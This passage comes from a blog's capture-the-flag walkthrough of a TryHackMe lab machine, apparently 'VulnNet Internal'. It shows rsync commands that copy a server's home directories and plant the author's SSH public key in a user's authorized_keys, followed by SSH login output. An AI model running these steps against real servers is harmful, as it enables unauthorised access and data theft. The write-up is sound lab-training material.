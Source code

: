 Now we've got that, I do this:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/vninternal]
└─# rsync -a rsync://rsync-connect@10.10.247.87:/files what 
{% endhighlight %}

And that copies everything in the *files* module to the *what* directory on my machine. *files* (and by extension *what*) appears to be the /home directory from the server. We have a user called **sys-internal**. Sys-internal has an SSH directory but no keys. I send my public key up via rsync and then we can log in. Note that in the below, my SSH public key was in the *foo.txt* file.

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/vninternal]
└─# rsync -avz foo.txt rsync://rsync-connect@10.10.247.87:/files/sys-internal/.ssh/authorized_keys                                                    
Password: 
sending incremental file list
foo.txt
rsync: chgrp "/sys-internal/.ssh/.authorized_keys.hcfpVf" (in files) failed: Operation not permitted (1)

sent 561 bytes  received 144 bytes  48.62 bytes/sec
total size is 569  speedup is 0.81
rsync error: some files/attrs were not transferred (see previous errors) (code 23) at main.c(1330) [sender=3.2.3]
                                                                                                                                                             
┌──(root💀kali)-[/opt/thm/vninternal]
└─# ssh sys-internal@10.10.247.87                                                       

Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

541 packages can be updated.
342 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

sys-internal@vulnnet-internal
{% endhighlight %}

## Privesc
This blog has **no** screenshots, and that's quite deliberate because I want to be able to copy and paste stuff from here, which you obviously can't do with a screenshot. So some of the privesc I'll just have to describe. 
